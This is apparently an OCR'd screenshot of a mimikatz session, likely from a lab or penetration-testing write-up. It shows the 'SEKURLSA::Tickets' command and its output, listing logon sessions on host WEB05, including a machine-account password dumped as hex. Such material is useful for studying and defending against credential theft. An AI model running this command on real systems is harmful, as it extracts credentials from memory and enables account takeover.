
  .#####.   mimikatz 2.2.0 (x64) #19041 Dec  1 2021 12:21:44
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # SEKURLSA::Tickets

Authentication Id : 0 ; 2611459 (00000000:0027d903)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : WEB05
Logon Server      : WEB05
Logon Time        : 3/3/2025 6:03:59 PM
SID               : S-1-5-21-2653632137-2977193267-2526065675-500

	 * Username : Administrator
	 * Domain   : WEB05
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 2589892 (00000000:002784c4)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/3/2025 6:03:59 PM
SID               : S-1-5-90-0-2

	 * Username : WEB05$
	 * Domain   : infinity.com
	 * Password : 25 69 4c 53 d1 2a 72 2c d6 79 1b 72 68 5b 29 f4 5f 2a 37 95 c8 3d a3 1f 7b 5c 69 b7 d1 a1 4d 2b 58 c7 08 e0 0b dd 91 93 09 7d e6 75 3f 07 03 35 07 a3 e2 df eb 54 07 44 c8 74 44 97 54 71 87 91 b5 25 e4 fc bf 4e 2f 0e fe 41 8f 8d 34 97 ed 59 98 a4 4e c3 87 1e 49 4c b3 dd 6c e4 7b eb 0b 15 3b 03 e6 99 2b 4d 3b 46 2e b8 17 4d cb 8a bb 9a 36 53 e3 16 b5 5d 32 fa 72 0c 13 e7 d6 19 d4 11 8f 2f 33 28 79 b6 81 a9 94 9d 02 f8 82 e6 38 85 c3 64 2f b9 57 ff be 0a 96 87 0f d2 79 ec 10 ba 23 0a 98 f9 d5 a9 04 33 83 ed 84 55 3b b5 a2 18 12 06 11 b0 44 84 6e 23 87 57 51 ed 13 b0 02 f7 36 e8 19 43 aa 8f 70 7c 17 77 a0 1c 61 f3 fa 5d 79 0a 7d 9f 76 89 c6 3d db dd b8 ef 2c a4 0a 5d 6b ac a6 39 c1 f8 c8 fb 32 51 67 22 3a 5d b0 6b 

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 2589133 (00000000:002781cd)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 3/3/2025 6:03:59 PM
SID               : S-1-5-96-0-2
